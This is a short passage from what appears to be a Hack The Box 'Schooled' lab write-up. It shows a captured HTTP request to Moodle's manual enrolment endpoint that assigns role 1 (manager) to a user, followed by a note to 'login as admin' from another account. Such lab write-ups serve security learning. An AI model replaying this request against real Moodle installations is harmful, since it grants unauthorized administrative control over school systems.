 ```python
GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=fUfVLvavYg&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=31&roletoassign=1&startdate=4&duration= HTTP/1.1
Host: moodle.schooled.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Referer: http://moodle.schooled.htb/moodle/user/index.php?id=5
Cookie: MoodleSession=jvdhtb9aockvr2ibrrva9fadf6; MOODLEID1_=%25B5W%25C7%259A%25DB%2505%2501o%25AB
```

Go to another account and click in login as admin. 

Because your account don't have admin login.

![schooled/Untitled%2014.png](schooled/Untitled%2014.png)
